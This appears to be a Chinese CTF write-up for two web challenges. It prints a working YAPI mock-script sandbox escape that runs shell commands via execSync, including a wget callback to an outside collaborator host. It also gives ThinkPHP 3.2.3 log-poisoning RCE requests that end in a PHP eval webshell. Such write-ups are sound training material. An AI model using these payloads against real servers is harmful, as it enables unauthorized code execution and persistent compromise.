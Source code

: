 > 你真的会 nodejs 吗？

是一个YAPI的主页，根据题目里rce的提示 搜搜看已知的漏洞：[Yapi 存在远程命令执行漏洞](https://blog.csdn.net/XavierDarkness/article/details/118662886)

那就好办了 跟着来就行咯；首先创建一个项目

![image-20210731153231688](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210731153231688.png)

之后修改全局mock脚本

```js
const sandbox = this
const ObjectConstructor = this.constructor
const FunctionConstructor = ObjectConstructor.constructor
const myfun = FunctionConstructor('return process')
const process = myfun()
mockjson = process.mainModule.require("child_process").execSync("command").toString()
```

之后添加接口

![image-20210731154705721](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210731154705721.png)

脚本中的execSync()处可rce，先用`wget http://xxxxx.burpcollaborator.net`试试水

![image-20210731154732738](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210731154732738.png)

很顺利嘛 好耶！

```bash
cat `ls`	// spawnSync /bin/sh ENOBUFS
cat `cd ../;ls`	// config.json, init.lock, log, vendors
cat `cd ../../;ls`	// app, bin, boot, dev, etc, ffffffflllllaggggg, home, lib, lib64, media, mnt, opt, proc, root, run, sbin, srv, start.sh, tmp, usr, var
cd ../../;cat `ls`	// app, bin,boot, dev, etc, home, lib, lib64, media, mnt,opt, proc, root, run, sbin, srv, sys, tmp, usr, var
cat `cd ../../;cat ffffffflllllaggggg`	// flag{5d096f4f-8c32-49b6-bed4-b485eb1cf08b}
```

## easythinkphp

> easythinkphp

只有一个thinkphp 3.2.3的欢迎页面，tp的洞很多 可以直接拿来打，参考：[【漏洞通报】ThinkPHP3.2.x RCE漏洞通报](https://mp.weixin.qq.com/s/_4IZe-aZ_3O2PmdQrVbpdQ)

```
/index.php?m=--><?=phpinfo();?>
/index.php?m=Home&c=Index&a=index&value[_filename]=./Application/Runtime/Logs/Common/21_08_01.log
```

![image-20210801011103992](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210801011103992.png)

先验证一下文档中的方法，成功，之后把phpinfo换成自己的一句话木马

```
/index.php?m=--><?=eval($_POST['wuhu']);?>
```
